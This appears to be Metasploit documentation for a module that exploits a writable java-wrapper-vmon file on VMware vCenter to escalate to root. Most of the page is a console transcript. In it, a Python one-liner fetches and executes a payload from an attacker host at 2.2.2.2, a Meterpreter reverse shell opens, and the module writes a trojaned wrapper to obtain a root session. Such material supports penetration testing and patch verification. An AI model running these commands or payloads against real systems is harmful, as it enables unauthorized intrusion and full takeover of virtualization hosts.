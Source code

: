 ## Vulnerable Application

This module exploits a privilege escalation in vSphere/vCenter due to improper permissions on the
`/usr/lib/vmware-vmon/java-wrapper-vmon` file. It is possible for anyone in the
`cis` group to write to the file, which will execute as root on `vmware-vmon` service
restart or host reboot.

This module was successfully tested against VMware VirtualCenter 6.5.0 build-7070488.

The following versions should be vulnerable:
 - vCenter 7.0 before U2c
 - vCenter 6.7 before U3o
 - vCenter 6.5 before U3q

## Verification Steps

1. Start msfconsole
2. Obtain a shell on vCenter for a user in the `cis` group.
3. Do: `use exploit/linux/local/vcenter_java_wrapper_vmon_priv_esc`
4. Do: `set session #`
5. Do: `run`
6. Restart the host, or the service (`systemctl restart vmware-vmon.service`) with a user who has permission
7. You should get a root shell.

## Options

## Scenarios

### VMware VirtualCenter 6.5.0 build-7070488

Get initial shell (any vic group member will do, here we use vsphere-client)

```
[*] Processing java_wrapper.rb for ERB directives.
resource (java_wrapper.rb)> use multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (java_wrapper.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (java_wrapper.rb)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Using URL: http://2.2.2.2:8080/cFK3ylrNE9s
[*] Server started.
[*] Run the following command on the target machine:
python -c "import sys;import ssl;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://2.2.2.2:8080/cFK3ylrNE9s', context=ssl._create_unverified_context());exec(r.read());"
msf exploit(multi/script/web_delivery) > 
[*] 1.1.1.1    web_delivery - Delivering Payload (432 bytes)
[*] Sending stage (24380 bytes) to 1.1.1.1
[*] Meterpreter session 1 opened (2.2.2.2:4444 -> 1.1.1.1:59084) at 2022-11-20 10:45:06 -0500

msf exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: vsphere-client
meterpreter > sysinfo
Computer        : localhost.ragedomain
OS              : Linux 4.4.8 #1-photon SMP Fri Oct 21 20:13:51 UTC 2016
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > shell
Process 6710 created.
Channel 1 created.
vpxd -v
/usr/sbin/vpxd: line 34: ulimit: open files: cannot modify limit: Operation not permitted
sed: couldn't open temporary file /etc/vmware-vpx/sedXf9kV4: Permission denied
VMware VirtualCenter 6.5.0 build-7070488
^Z
Background channel 1? [y/N]  y
meterpreter > background
[*] Backgrounding session 1...
```

Conduct the priv esc

```
msf exploit(multi/script/web_delivery) > use exploit/linux/local/vcenter_java_wrapper_vmon_priv_esc
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf exploit(linux/local/vcenter_java_wrapper_vmon_priv_esc) > set session 1
session => 1
msf exploit(linux/local/vcenter_java_wrapper_vmon_priv_esc) > set verbose true
verbose => true
msf exploit(linux/local/vcenter_java_wrapper_vmon_priv_esc) > jobs -K
Stopping all jobs...

[*] Server stopped.
msf exploit(linux/local/vcenter_java_wrapper_vmon_priv_esc) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: python
[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. /usr/lib/vmware-vmon/java-wrapper-vmon is writable and owned by cis group
[+] Original /usr/lib/vmware-vmon/java-wrapper-vmon backed up to /root/.msf4/loot/20221120104723_default_1.1.1.1_javawrappervmo_605726.txt
[*] Writing payload to /tmp/.BCOL6n
[*] Writing '/tmp/.BCOL6n' (250 bytes) ...
[*] Writing trojaned /usr/lib/vmware-vmon/java-wrapper-vmon
[*] Attempting to restart vmware-vmon service
[-] vmware-vmon service needs to be restarted, or host rebooted to obtain shell.
[*] Waiting 1800 seconds for shell
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 1.1.1.1
[+] Deleted /tmp/.BCOL6n
[*] Meterpreter session 2 opened (2.2.2.2:4444 -> 1.1.1.1:32906) at 2022-11-20 10:47:52 -0500
[*] Replacing trojaned /usr/lib/vmware-vmon/java-wrapper-vmon with original

meterpreter > getuid
Server username: root
meterpreter > 
```
